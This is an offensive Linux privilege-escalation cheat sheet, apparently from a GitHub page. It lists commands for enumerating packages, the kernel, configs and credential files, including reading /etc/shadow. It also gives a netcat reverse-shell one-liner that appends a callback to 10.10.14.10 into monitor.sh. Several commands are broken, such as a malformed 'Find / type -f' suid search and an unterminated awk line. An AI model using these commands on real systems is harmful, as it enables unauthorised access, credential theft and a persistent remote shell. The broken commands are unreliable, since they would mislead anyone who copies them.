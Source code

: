 #  Linux Privilege Escalation


#### What applications are installed? What version are they? Are they currently running?



~~~
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
~~~

#### What's the distribution type? What version?


~~~
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
~~~

#### What's the Kernel version? Is it 64-bit?

~~~
cat /proc/version   
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
~~~

#### What can be learnt from the environmental variables?

~~~
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
~~~


##### Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?

~~~
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
~~~


#### What sensitive files can be found?

~~~
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
~~~

#### Bash One-Line
~~~
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 7242 > /tmp/f" >> monitor.sh
~~~



Use the following command to obtain all items with the suid bit set.


~~~
Find / type -f -perm -u=s 2>/dev/null
~~~


Refrence:

https://www.stationx.net/linux-privilege-escalation/#:~:text=What%20is%20privilege%20escalation%20in,tasks%20beyond%20their%20intended%20permissions.


